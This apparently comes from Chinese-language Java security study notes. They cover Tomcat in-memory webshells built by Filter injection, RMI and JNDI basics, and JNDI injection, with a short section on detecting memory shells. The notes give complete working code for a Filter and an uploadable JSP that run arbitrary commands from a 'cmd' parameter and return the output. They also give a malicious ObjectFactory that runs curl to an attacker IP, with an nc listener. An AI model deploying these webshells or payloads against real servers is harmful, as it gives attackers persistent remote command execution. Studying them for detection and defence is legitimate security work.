        - 在Web应用中获取的ServletContext实际上是ApplicationContextFacade对象，对ApplicationContext进行了封装，而ApplicationContext实例中又包含了StandardContext实例，以此来获取操作Tomcat容器内部的一些信息，例如Servlet的注册等。通过下面的图可以很清晰的看到两者之间的关系
        - 

    - 如果我们能够直接获取request的时候，可以使用以下方法直接获取context。其实也是层层递归取出context字段的值。

        ```java
        ServletContext servletContext = request.getSession().getServletContext();
        Field appContextField = servletContext.getClass().getDeclaredField("context");
        appContextField.setAccessible(true);
        ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
        //上面几行的目的是为了获取(ApplicationContext)context
        
        
        Field standardContextField = applicationContext.getClass().getDeclaredField("context");
        standardContextField.setAccessible(true);
        StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
        ```

        获取到standardContext就可以很方便的将其他对象添加在Tomcat Context中。

        [如果没有request对象的话可以从当前线程中获取StandardContext](https://zhuanlan.zhihu.com/p/114625962)

        当然也可以从MBean中获取，可以参考下面文章

        《[TOMCAT FILTER 之动态注入](https://scriptboy.cn/p/tomcat-filter-inject/#)》

        《[通过Mbean获取context](https://paper.seebug.org/1441/#2mbeancontext)》

        

    **2. 创建Filter**

    直接在代码中实现Filter实例，需要重写三个重要方法，init、doFilter、destory，如下面代码所示：

    ```java
    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest req = (HttpServletRequest) servletRequest;
            if (req.getParameter("cmd") != null){
                InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd")).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                servletResponse.getWriter().write(output);
                return;
            }
            filterChain.doFilter(servletRequest,servletResponse);
        }
        @Override
        public void destroy() {
        }
    };
    ```

    在doFilter方法中实现命令执行回显功能。

**3. 创建filterDef封装Filter对象，并添加到FilterDefs中**

为了之后将内存马融合进反序列化payload中，这里特意使用反射获取FilterDef对象。如果使用的是jsp或者是非反序列化的利用，那么可以直接使用new创建对象。

```java
Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
Constructor declaredConstructors = FilterDef.getDeclaredConstructor();
FilterDef o = (org.apache.tomcat.util.descriptor.web.FilterDef)declaredConstructors.newInstance();
o.setFilter(filter);
o.setFilterName(FilterName);
o.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(o);
```

setFilter方法将自己创建的Filter绑定在FilterDef中，setFilterName设置的是Filter的名称，最后把FilterDef添加在standardContext的FilterDefs变量中。

**4. 创建filterMap绑定URL，并添加到FilterMaps中**

通过反射创建FilterMap实例，该部分代码主要是注册filter的生效路由，并将FilterMap对象添加在standardContext中FilterMaps变量的第一个。

```java
Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
Constructor<?> declaredConstructor = FilterMap.getDeclaredConstructor();
org.apache.tomcat.util.descriptor.web.FilterMap o1 = (org.apache.tomcat.util.descriptor.web.FilterMap)declaredConstructor.newInstance();

o1.addURLPattern("/*");
o1.setFilterName(FilterName);
o1.setDispatcher(DispatcherType.REQUEST.name());//只支持 Tomcat 7.x 以上
////添加我们的filterMap到所有filter最前面
standardContext.addFilterMapBefore(o1);
```

**5. 利用filterdef创建 ApplicationFilterConfig并添加到filterConfigs 中**

之后通过反射生成ApplicationFilterConfig对象，并将其放入filterConfigs hashMap中。

```java
Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
Constructor<?> declaredConstructor1 = ApplicationFilterConfig.getDeclaredConstructor(Context.class,FilterDef.class);
declaredConstructor1.setAccessible(true);
ApplicationFilterConfig filterConfig = (org.apache.catalina.core.ApplicationFilterConfig) declaredConstructor1.newInstance(standardContext,o);

//FilterConfig并添加到filterConfigs 中
Configs = StandardContext.class.getDeclaredField("filterConfigs");
Configs.setAccessible(true);
filterConfigs = (Map) Configs.get(standardContext);
filterConfigs.put(FilterName,filterConfig);
```

完整代码

```java
Field Configs = null;
Map filterConfigs;
try {
    //Step 1
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    String FilterName = "cmd_Filter";
    Configs = StandardContext.class.getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    filterConfigs = (Map) Configs.get(standardContext);
    //Step 2
    if (filterConfigs.get(FilterName) == null){
        Filter filter = new Filter() {

            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){

                    InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd")).getInputStream();
                    //
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String output = s.hasNext() ? s.next() : "";
                    servletResponse.getWriter().write(output);

                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }
            @Override
            public void destroy() {
            }
        };
        //Step 3
        Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
        Constructor declaredConstructors = FilterDef.getDeclaredConstructor();
        FilterDef o = (org.apache.tomcat.util.descriptor.web.FilterDef)declaredConstructors.newInstance();
        o.setFilter(filter);
        o.setFilterName(FilterName);
        o.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(o);
        //Step 4
        Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
        Constructor<?> declaredConstructor = FilterMap.getDeclaredConstructor();
        org.apache.tomcat.util.descriptor.web.FilterMap o1 = (org.apache.tomcat.util.descriptor.web.FilterMap)declaredConstructor.newInstance();

        o1.addURLPattern("/*");
        o1.setFilterName(FilterName);
        o1.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(o1);

        //Step 5
        Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
        Constructor<?> declaredConstructor1 = ApplicationFilterConfig.getDeclaredConstructor(Context.class,FilterDef.class);
        declaredConstructor1.setAccessible(true);
        ApplicationFilterConfig filterConfig = (org.apache.catalina.core.ApplicationFilterConfig) declaredConstructor1.newInstance(standardContext,o);
        filterConfigs.put(FilterName,filterConfig);
    }
} catch (Exception e) {
    e.printStackTrace();
}
```

filterDemo.jsp

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
  final String name = "FilterAgent";
  ServletContext servletContext = request.getSession().getServletContext();

  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

  Field stdctx = applicationContext.getClass().getDeclaredField("context");
  stdctx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

  Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
  Configs.setAccessible(true);
  Map filterConfigs = (Map) Configs.get(standardContext);

  if (filterConfigs.get(name) == null){
    Filter filter = new Filter() {
      @Override
      public void init(FilterConfig filterConfig) throws ServletException {

      }

      @Override
      public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        if (req.getParameter("cmd") != null){
          byte[] bytes = new byte[1024];
          Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
          int len = process.getInputStream().read(bytes);
          servletResponse.getWriter().write(new String(bytes,0,len));
          process.destroy();
          return;
        }
        filterChain.doFilter(servletRequest,servletResponse);
      }

      @Override
      public void destroy() {

      }

    };


    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(name);
    filterDef.setFilterClass(filter.getClass().getName());
    /**
     * 将filterDef添加到filterDefs中
     */
    standardContext.addFilterDef(filterDef);

    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/testshell");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());

    standardContext.addFilterMapBefore(filterMap);

    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

    filterConfigs.put(name,filterConfig);
    out.print("Inject Success !");
  }
%>

```

上传jsp文件后执行，访问对应url。


tomcat 7 与 tomcat 8 在 FilterDef 和 FilterMap 这两个类所属的包名不一样

```jsp
<!-- tomcat 8/9 -->

<!-- page import = "org.apache.tomcat.util.descriptor.web.FilterMap"

<!-- page import = "org.apache.tomcat.util.descriptor.web.FilterDef" -->


<!-- tomcat 7 -->

<%@ page import = "org.apache.catalina.deploy.FilterMap" %>

<%@ page import = "org.apache.catalina.deploy.FilterDef" %>
```


### 内存马排查

如果我们通过检测工具或者其他手段发现了一些内存webshell的痕迹，需要有一个排查的思路来进行跟踪分析，也是根据各类型的原理，列出一个排查思路

```java
如果是jsp注入，日志中排查可疑jsp的访问请求。

如果是代码执行漏洞，排查中间件的error.log，查看是否有可疑的报错，判断注入时间和方法

根据业务使用的组件排查是否可能存在java代码执行漏洞以及是否存在过webshell，排查框架漏洞，反序列化漏洞。

如果是servlet或者spring的controller类型，根据上报的webshell的url查找日志（日志可能被关闭，不一定有），根据url最早访问时间确定被注入时间。

如果是filter或者listener类型，可能会有较多的404但是带有参数的请求，或者大量请求不同url但带有相同的参数，或者页面并不存在但返回200
```

《[tomcat内存马的多种查杀方式](https://syst1m.com/post/memory-webshell/#防守视角-tomcat内存马的多种查杀方式)》

#### java-memshell-scanner

工具链接：https://github.com/c0ny1/java-memshell-scanner

c0ny1 师傅写的检测内存马的工具，通过jsp脚本扫描并查杀各类中间件内存马，比Java agent要温和一些。能够检测并且进行删除，是一个非常方便的工具

但是需要上传jsp文件，然后访问。


可以看到，检测到了我们上传的内存马，并且可以dump出class文件查看是不是内存马，然后可以kill掉这个内存马。

### arthas

arthas是Alibaba开源的Java诊断工具，只能检测不能查杀


## RMI

### RMI基础

- RMI全称是Remote Method Invocation，远程方法调⽤用。从这个名字就可以看出，他的⽬目标和RPC其实
  是类似的，是让某个Java虚拟机上的对象调⽤用另一个Java虚拟机中对象上的⽅方法，只不过RMI是Java独
  有的一种机制。

  
- 要调用的远程方法的接口，需要客户端，服务器端都要有这个代码。

  ```java
  package test;
  
  import java.rmi.Remote;
  import java.rmi.RemoteException;
  
  //继承了java.rmi.Remote的接⼝，其中定义我们要远程调用的函数，
  public interface IRemoteHelloWorld extends Remote {
      public String hello() throws RemoteException;
  }
  
  ```
- RMI Server：

  ```java
  package test;
  
  import java.rmi.Naming;
  import test.IRemoteHelloWorld;
  import java.rmi.RemoteException;
  import java.rmi.registry.LocateRegistry;
  import java.rmi.server.UnicastRemoteObject;
  
  //一个主类，用来创建Registry，并将实现了远程方法类实例化后绑定到一个地址。
  public class RMIServer {
  
      //实现了了hello接口的类
      public class RemoteHelloWorld extends UnicastRemoteObject implements
              IRemoteHelloWorld {
          protected RemoteHelloWorld() throws RemoteException {
              super();
          }
          public String hello() throws RemoteException {
              System.out.println("call from");
              return "Hello world";
          }
      }
      private void start() throws Exception {
          //实例化远程方法类
          RemoteHelloWorld h = new RemoteHelloWorld();
          // 注册RMI端口
          LocateRegistry.createRegistry(1099);
          //在端口注册该对象,并将该对象的服务名字设置为hello。
          Naming.rebind("rmi://127.0.0.1:1099/Hello", h);
          /*
          RMI客户端需要有远程调用方法的接口代码(IRemoteHelloWorld.java)（这玩意就是中转站，客户端会有接口，服务器端要实现），
          RMI客户端调用服务器端的RMI服务时会返回这个服务所绑定的对象引用，RMI客户端可以通过该引用对象调用远程的服务实现类的方法并获取方法执行结果。
          */
          System.out.println("RMI服务启动成功,服务地址:" + "rmi://127.0.0.1:1099/Hello");
      }
      //
      public static void main(String[] args) throws Exception {
          new RMIServer().start();
      }
  }
  ```

  - 一个RMI Server分为三部分
    - 一个继承了java.rmi.Remote的接口，其中定义我们要远程调用的函数。
    - 一个实现了此接口的类。
    - 一个主类，用来创建Registry，并将上面的类实例化后绑定到一个地址。这就是我们所谓的Server
      了。这里我们把这个Registry类和实现接口类写在一起了，一般是分开写的。
- RMIClient

  ```java
  package test;
  
  import java.rmi.Naming;
  import test.IRemoteHelloWorld;
  
  public class RMIClient {
  
      public static void main(String[] args) throws Exception {
          //查找远程RMI服务
          IRemoteHelloWorld a = (IRemoteHelloWorld) Naming.lookup("rmi://127.0.0.1:1099/Hello");
          //调用远程接口类的hello方法
          String ret = a.hello();
          System.out.println( ret);
      }
  }
  ```

  - 客户端就简单多了，使用Naming.lookup在Registry中寻找到名字是Hello的对象，后面的使用就和在
    本地使用一样了。**lookup作用就是获得某个远程对象**。
  - 虽然执行远程方法的时候代码在远程服务器上执行的，但是实际我们还是需要知道有哪些方法的，这时候接口的重要性就体现出来了，这也就是为什么我们前面要继承Remote并将我们需要调用的方法写在接口 `IRemoteHelloWorld`里面了，因为客户端也要用到这个接口。
- RMI底层通讯采用了Stub(运行在客户端)和Skeleton(运行在服务端)机制，RMI调用远程方法的大致如下：
- 为了理解RMI的通信过程，使用wireshark抓包，发现整个过程进行了两次tcp握手，也就是实际建立了两次tcp链接。

  - 第一次建立TCP连接是连接远端xxx.xxx.xxx.xxx的1099端口，这也是我们在代码里看到的端口。二者进行沟通后，客户端向远端发送了一个“Call”消息，远端回复了一个“ReturnData”消息。
    - 首先客户端连接Registry，并在其中寻找Name是Hello的对象，这个对应数据流中的Call消息。
    - RMI客户端先创建 `Stub(sun.rmi.registry.RegistryImpl_Stub)`。
    - Stub会将 `Remote`对象传递给远程引用层 `(java.rmi.server.RemoteRef)`并创建 `java.rmi.server.RemoteCall`(远程调用)对象。RemoteCall序列化RMI服务名称、Remote对象。RMI客户端的远程引用层传输RemoteCall序列化后的请求信息通过Socket连接的方式传输到RMI服务端的远程引用层。
    - RMI服务端的远程引用层(sun.rmi.server.UnicastServerRef)收到请求会请求传递给 `Skeleton(sun.rmi.registry.RegistryImpl_Skel#dispatch)`。Skeleton调用RemoteCall，反序列化RMI客户端传过来的数据。Skeleton处理客户端请求：bind、list、lookup、rebind、unbind，**如果是lookup则查找RMI服务名绑定的接口对象，序列化该对象(并不是我们在服务器上写的实现接口类对象，)并通过RemoteCall传输到客户端。**
    - 然后Registry返回一个序列化的数据，这个就是找到的Name=Hello的对象，这个对应数据流中的ReturnData消息；
  - 然后客户端新建立了个TCP连接，连到远端的33769端口（这个端口由返回的数据包得到，是不固定的）。
    - 客户端反序列化该对象，发现该对象是一个**远程对象**，地址在xxx.xxx.xxx.xxx:33769，于是再与这个地址建立TCP连接。**RMI客户端调用远程方法**，**RMI服务端反射调用RMI服务实现类的对应方法并序列化执行结果**返回给客户端。（**使用远程对象会受到一些安全限制，还有一些细节需要补充**）
    - 借用下图来说明这些元素间的关系：
  - 
  - RMI Registry就像一个网关，他自己是不会执行远程方法的，但RMI Server可以在上面注册一个Name到对象的绑定关系；RMI Client通过Name向RMI Registry查询，得到这个绑定关系，然后再连接RMIServer；最后，远程方法实际上在RMI Server上调用。

### RMI漏洞

- 一个RMI过程有三个参与者：

  - RMI Registry
  - RMI Server
  - RMI Client

## JNDI

### JNDI基础

- sink：lookup

- `JNDI(Java Naming and Directory Interface)`是Java提供的 `Java 命名和目录接口`。**通过调用JNDI的API应用程序可以定位资源和其他程序对象**。**感觉就是一个高层抽象，提供统一的接口来调用各种服务**。`JNDI`是 `Java EE`的重要部分，需要注意的是它并不只是包含了 `DataSource(JDBC 数据源)`，`JNDI`可访问的现有的目录及服务有:`JDBC`、`LDAP`、`RMI`、`DNS`、`NIS`、`CORBA`。

  - **Naming Service 命名服务：**
    - 命名服务将名称和对象进行关联，提供通过名称找到对象的操作，例如：DNS系统将计算机名和IP地址进行关联、文件系统将文件名和文件句柄进行关联等等。
  - **Directory Service 目录服务：**
    - **目录服务是命名服务的扩展**，除了提供名称和对象的关联，**还允许对象具有属性**。目录服务中的对象称之为目录对象。目录服务提供创建、添加、删除目录对象以及修改目录对象属性等操作。
  - **Reference 引用：**
    - 在一些命名服务系统中，系统并不是直接将对象存储在系统中，而是保持对象的引用。引用包含了如何访问实际对象的信息。
  - 更多 `JNDI`相关概念参考: [Java技术回顾之JNDI：命名和目录服务基本概念](https://blog.csdn.net/ericxyy/article/details/2012287)
- JNDI目录服务：

  - 访问 `JNDI`目录服务时会通过预先设置好环境变量访问对应的服务， 如果创建 `JNDI`上下文(`Context`)时未指定 `环境变量`对象，`JNDI`会自动搜索 `系统属性(System.getProperty())`、`applet 参数`和 `应用程序资源文件(jndi.properties)`。
  - **使用 `JNDI`创建目录服务对象代码片段：**

    ```java
    // 创建环境变量对象
    Hashtable env = new Hashtable();
    // 设置JNDI初始化工厂类名
    env.put(Context.INITIAL_CONTEXT_FACTORY, "类名");
    // 设置JNDI提供服务的URL地址
    env.put(Context.PROVIDER_URL, "url");
    // 创建JNDI目录服务对象
    DirContext context = new InitialDirContext(env);
    ```
  - `Context.INITIAL_CONTEXT_FACTORY(初始上下文工厂的环境属性名称)`指的是 `JNDI`服务处理的具体类名称，如：`DNS`服务可以使用 `com.sun.jndi.dns.DnsContextFactory`类来处理，`JNDI`上下文工厂类必须实现 `javax.naming.spi.InitialContextFactory`接口，通过重写 `getInitialContext`方法来创建服务。
  - **javax.naming.spi.InitialContextFactory代码片段**:**

    ```java
    package javax.naming.spi;
    public interface InitialContextFactory {
        public Context getInitialContext(Hashtable<?,?> environment) throws NamingException;
    }
    ```
  - **使用JNDI解析DNS测试：**

    ```java
    package test;
    
    import javax.naming.Context;
    import javax.naming.NamingException;
    import javax.naming.directory.Attributes;
    import javax.naming.directory.DirContext;
    import javax.naming.directory.InitialDirContext;
    import java.util.Hashtable;
    /**
     * Creator: yz
     * Date: 2019/12/23
     */
    public class DNSContextFactoryTest {
        public static void main(String[] args) {
            // 创建环境变量对象
            Hashtable env = new Hashtable();
            // 设置JNDI初始化工厂类名
            env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.dns.DnsContextFactory");
            // 设置JNDI提供服务的URL地址，这里可以设置解析的DNS服务器地址
            env.put(Context.PROVIDER_URL, "dns://223.6.6.6/");
            try {
                // 创建JNDI目录服务对象
                DirContext context = new InitialDirContext(env);
                // 获取DNS解析记录测试
                Attributes attrs1 = context.getAttributes("baidu.com", new String[]{"A"});
                Attributes attrs2 = context.getAttributes("qq.com", new String[]{"A"});
                System.out.println(attrs1);
                System.out.println(attrs2);
            } catch (NamingException e) {
                e.printStackTrace();
            }
        }
    }
    ```

    - 程序运行结果

      ```
      {a=A: 220.181.38.148, 220.181.38.251}
      {a=A: 61.129.7.47, 183.3.226.35, 123.151.137.18}
      ```
  - JNDI-RMI远程方法调用:

    - `RMI`的服务处理工厂类是:`com.sun.jndi.rmi.registry.RegistryContextFactory`，在调用远程的 `RMI`方法之前需要先启动 `RMI`服务：`com.anbai.sec.rmi.RMIServerTest`，启动完成后就可以使用 `JNDI`连接并调用了。
    - **使用JNDI解析调用远程RMI方法测试：**

      ```java
      package com.anbai.sec.jndi;
      import com.anbai.sec.rmi.RMITestInterface;
      import javax.naming.Context;
      import javax.naming.NamingException;
      import javax.naming.directory.DirContext;
      import javax.naming.directory.InitialDirContext;
      import java.rmi.RemoteException;
      import java.util.Hashtable;
      import static com.anbai.sec.rmi.RMIServerTest.*;
      /**
       * Creator: yz
       * Date: 2019/12/24
       */
      public class RMIRegistryContextFactoryTest {
         public static void main(String[] args) {
            String providerURL = "rmi://" + RMI_HOST + ":" + RMI_PORT;
            // 创建环境变量对象
            Hashtable env = new Hashtable();
            // 设置JNDI初始化工厂类名
            env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
            // 设置JNDI提供服务的URL地址
            env.put(Context.PROVIDER_URL, providerURL);
            // 通过JNDI调用远程RMI方法测试，等同于com.anbai.sec.rmi.RMIClientTest类的Demo
            try {
               // 创建JNDI目录服务对象
               DirContext context = new InitialDirContext(env);
               // 通过命名服务查找远程RMI绑定的RMITestInterface对象
               RMITestInterface testInterface = (RMITestInterface) context.lookup(RMI_NAME);
               // 调用远程的RMITestInterface接口的test方法
               String result = testInterface.test();
               System.out.println(result);
            } catch (NamingException e) {
               e.printStackTrace();
            } catch (RemoteException e) {
               e.printStackTrace();
            }
         }
      }
      ```
  - JNDI-LDAP：

    - `LDAP`的服务处理工厂类是:`com.sun.jndi.ldap.LdapCtxFactory`，连接 `LDAP`之前需要配置好远程的 `LDAP`服务。

      ```java
      package com.anbai.sec.jndi;
      import javax.naming.Context;
      import javax.naming.directory.DirContext;
      import javax.naming.directory.InitialDirContext;
      import java.util.Hashtable;
      /**
       * Creator: yz
       * Date: 2019/12/24
       */
      public class LDAPFactoryTest {
         public static void main(String[] args) {
            try {
               // 设置用户LDAP登陆用户DN
               String userDN = "cn=Manager,dc=javaweb,dc=org";
               // 设置登陆用户密码
               String password = "123456";
               // 创建环境变量对象
               Hashtable<String, Object> env = new Hashtable<String, Object>();
               // 设置JNDI初始化工厂类名
               env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdapCtxFactory");
               // 设置JNDI提供服务的URL地址
               env.put(Context.PROVIDER_URL, "ldap://localhost:389");
               // 设置安全认证方式
               env.put(Context.SECURITY_AUTHENTICATION, "simple");
               // 设置用户信息
               env.put(Context.SECURITY_PRINCIPAL, userDN);
               // 设置用户密码
               env.put(Context.SECURITY_CREDENTIALS, password);
               // 创建LDAP连接
               DirContext ctx = new InitialDirContext(env);
              // 使用ctx可以查询或存储数据,此处省去业务代码
               ctx.close();
            } catch (Exception e) {
               e.printStackTrace();
            }
         }
      }
      ```
- JNDI协议转换：

  - 如果 `JNDI`在 `lookup`时（这里的lookup不是）没有指定初始化工厂名称，会自动根据协议类型动态查找内置的工厂类然后创建处理对应的服务请求。
  - `JNDI`默认支持自动转换的协议有：

    | 协议名称             | 协议URL          | Context类                                                 |
    | :------------------- | :--------------- | :-------------------------------------------------------- |
    | DNS协议              | `dns://`       | `com.sun.jndi.url.dns.dnsURLContext`                    |
    | RMI协议              | `rmi://`       | `com.sun.jndi.url.rmi.rmiURLContext`                    |
    | LDAP协议             | `ldap://`      | `com.sun.jndi.url.ldap.ldapURLContext`                  |
    | LDAP协议             | `ldaps://`     | `com.sun.jndi.url.ldaps.ldapsURLContextFactory`         |
    | IIOP对象请求代理协议 | `iiop://`      | `com.sun.jndi.url.iiop.iiopURLContext`                  |
    | IIOP对象请求代理协议 | `iiopname://`  | `com.sun.jndi.url.iiopname.iiopnameURLContextFactory`   |
    | IIOP对象请求代理协议 | `corbaname://` | `com.sun.jndi.url.corbaname.corbanameURLContextFactory` |
  - **RMI示例代码片段：**

    ```java
    // 创建JNDI目录服务上下文
    InitialContext context = new InitialContext();
    // 查找JNDI目录服务绑定的对象
    Object obj = context.lookup("rmi://127.0.0.1:9527/test");
    ```
  - 示例代码通过 `lookup`会自动使用 `rmiURLContext`处理 `RMI`请求。

### JNDI注入漏洞

> https://y4er.com/posts/attack-java-jndi-rmi-ldap-2/#jndi%E6%B3%A8%E5%85%A5

- **JNDI注入漏洞，就是服务器直接或者间接的调用JNDI服务，且 `lookup`的参数值可控，也就是我们可以输入访问的服务的url，比如 `rmi://127.0.0.1:9527/test`，进而使得服务器执行JNDI功能。**而在 `JNDI`服务中允许使用系统以外的对象，比如在某些目录服务中直接加载远程的Java对象，比如RMI/LDAP的服务对象如果是远程引用对象（这个对象包含了一个jar文件的url和类名字的信息），就会直接加载这个jar文件中的目标类到本地并实例化成对象，这种加载需要远程的jar文件中的该类实例化一个接口（`javax.naming.spi.ObjectFactory`接口），当本地加载这个类时就会执行这个接口的代码，所以实现接口时写入恶意执行命令的代码，这样一旦对象被加载到本地，就会执行该代码。

- **直接使用RMI加载远程引用对象安全限制（限制较多，不常使用）**

  - 攻击者实现一个RMI恶意远程对象并绑定到RMI Registry上，编译后的RMI远程对象类可以放在HTTP/FTP/SMB等服务器上，这个Codebase地址由远程服务器的 java.rmi.server.codebase 属性设置，供受害者的RMI客户端远程加载，RMI客户端在 lookup() 的过程中，会先尝试在本地CLASSPATH中去获取对应的Stub类的定义，并从本地加载，然而如果在本地无法找到，RMI客户端则会向远程Codebase去获取攻击者指定的恶意对象，这种方式将会受到 useCodebaseOnly 的限制。利用条件如下：
      - RMI客户端的上下文环境允许访问远程Codebase。
      - 属性 java.rmi.server.useCodebaseOnly 的值必需为false。
  - 然而从JDK 6u45、7u21,**JDK 8u121**开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前VM的java.rmi.server.codebase 指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

- **JNDI——RMI**

    - 攻击者通过RMI服务返回一个JNDI Naming Reference，受害者解码Reference时会去我们指定的Codebase远程地址加载Factory类，但是原理上并非使用RMI Class Loading机制的，因此不受 java.rmi.server.useCodebaseOnly 系统属性的限制，相对来说更加通用。

    - 但是在JDK 6u132, JDK 7u122, **JDK 8u113** 中Java提升了JNDI 限制了Naming/Directory服务中JNDI Reference远程加载Object Factory类的特性。

        - 系统属性 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false，即默认不允许从远程的Codebase加载Reference工厂类。如

    - 果需要开启 RMI Registry 或者 COS Naming Service Provider的远程类加载功能，需要将前面说的两个属性值设置为true。

        ```java
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        //System.setProperty("com.sun.jndi.cosnaming.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        
        实测需要开启上面两个
        ```

- **JNDI——LDAP加载远程引用对象安全限制**（**实战中常用ldap**）

    - 除了RMI服务之外，JNDI还可以对接LDAP服务，LDAP也能返回JNDI Reference对象，利用过程与上面RMI Reference基本一致，只是lookup()中的URL为一个LDAP地址：ldap://xxx/xxx，由攻击者控制的LDAP服务端返回一个恶意的JNDI Reference对象。并且LDAP服务的Reference远程加载Factory类不受上一点中 `com.sun.jndi.rmi.object.trustURLCodebase`，`com.sun.jndi.cosnaming.object.trustURLCodebase`等属性的限制，所以适用范围更广。
    - **不过在2018年10月，Java最终也修复了这个利用点，在 `JDK 11.0.1、8u191、7u201、6u211`后也将默认的 `com.sun.jndi.ldap.object.trustURLCodebase`设置为了 `false`。**所以所以在jdk8中**8u191**之前可以利用。还对应的分配了一个漏洞编号CVE-2018-3149。
    - 本地测试的时候，**jdk8u191**及其以后的版本，要执行下面的代码才能复现成功。
        - `System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");`
        - 同样也会报错`JdbcRowSet (连接) JNDI 无法连接`，但是会弹出计算机。

- 使用创建恶意的ObjectFactory对象：

  - `JNDI`允许通过**对象工厂** (`javax.naming.spi.ObjectFactory`)动态加载对象实现，例如，当查找绑定在名称空间中的打印机时，如果打印服务将打印机的名称绑定到 Reference，则可以使用该打印机 Reference 远程**加载一个打印机对象到本地**，从而查找的调用者可以在查找后直接在该打印机对象上操作。
  - 对象工厂必须实现 `javax.naming.spi.ObjectFactory`接口并重写 `getObjectInstance`方法。

    ```java
    package test;
    import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.util.Hashtable;
    /**
     * 引用对象创建工厂
     */
    public class ReferenceObjectFactory implements ObjectFactory {
        /**
         * @param obj  包含可在创建对象时使用的位置或引用信息的对象（可能为 null）。
         * @param name 此对象相对于 ctx 的名称，如果没有指定名称，则该参数为 null。
         * @param ctx  一个上下文，name 参数是相对于该上下文指定的，如果 name 相对于默认初始上下文，则该参数为 null。
         * @param env  创建对象时使用的环境（可能为 null）。
         * @return 对象工厂创建出的对象
         * @throws Exception 对象创建异常
         */
        public Object getObjectInstance(Object obj, Name name, Context ctx, Hashtable<?, ?> env) throws Exception {
            // 在创建对象过程中插入恶意的攻击代码，或者直接创建一个本地命令执行的Process对象从而实现RCE
            return Runtime.getRuntime().exec("curl 172.26.146.230:9000"); //攻击机监听的ip和端口
        }
    }
    ```
  - 攻击机开始监听9000端口：` nc -lvv 9000`

- RMI服务端和客户端均在本机上，但是恶意jar文件和nc均在攻击机上。

- **创建恶意的RMI服务**

  - 如果我们在 `RMI`服务端绑定一个恶意的引用对象，**`RMI`客户端在获取服务端绑定的对象时发现是一个 `Reference`对象后检查当前 `JVM`是否允许加载远程引用对象，如果允许加载且本地不存在此对象工厂类则使用 `URLClassLoader`加载远程的 `jar`，并加载我们构建的恶意对象工厂(`ReferenceObjectFactory`)类然后调用其中的 `getObjectInstance`方法从而触发该方法中的恶意 `RCE`代码。**

    ```java
